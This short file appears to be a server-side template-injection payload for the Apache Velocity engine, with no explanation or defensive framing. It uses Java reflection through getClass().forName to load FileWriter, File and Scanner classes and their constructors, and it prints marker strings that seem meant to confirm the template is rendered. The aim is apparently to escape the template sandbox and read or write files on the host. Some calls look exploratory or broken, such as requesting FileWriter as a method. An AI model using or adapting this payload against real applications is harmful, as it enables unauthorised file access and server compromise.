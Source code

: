 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$a
#set ($ab=$e.getClass().forName("java.io.File"))
$ab
#set($sc = $e.getClass().forName("java.util.Scanner"))
$sc
#set($str=$class.inspect("java.lang.String").type)
$str
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
$constructor
#set ( $xx=$e.getClass().forName("java.io.FileWriter").getMethod("FileWriter",$e.getClass().forName("java.lang.String")) )
$xx

$monkey





